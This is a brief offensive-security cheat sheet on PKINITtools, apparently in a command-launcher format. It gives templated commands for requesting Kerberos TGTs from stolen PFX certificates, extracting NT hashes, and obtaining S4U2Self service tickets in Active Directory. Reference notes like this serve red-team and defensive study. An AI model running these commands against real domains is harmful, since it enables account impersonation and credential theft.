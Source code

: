 # PKINITtools

% adcs, certificate, pki, windows, Active directory, template, shadow credential


## Request a TGT using a PFX
#plateform/linux #target/remote #cat/RECON
error "KDC has no support for PADATA type (pre-authentication data)" means DC do not support PKINIT because their certificates do not have the Smart Card Logon EKU

use PassTheCert.py to attack ldap with a cert but no tgt can be obtained
```
gettgtpkinit -cert-pfx <pfx_file_> -pfx-pass <pfx_password|jubeaz> -dc-ip <dc_ip> <domain>/<accountToImpersonate> <ccache_path>
```

## hash from TGT and AS REP key
#plateform/linux #target/remote #cat/RECON
```
export KRB5CCNAME=<cache-path> && getnthash <domain>/<ComputerAccount> -key <key>
```

## silver ticket using a certificate
#plateform/linux #target/remote #cat/RECON
```
gets4uticket 
```
Uses Kerberos S4U2Self to request a service ticket that is valid on the host for which you've obtained a certificate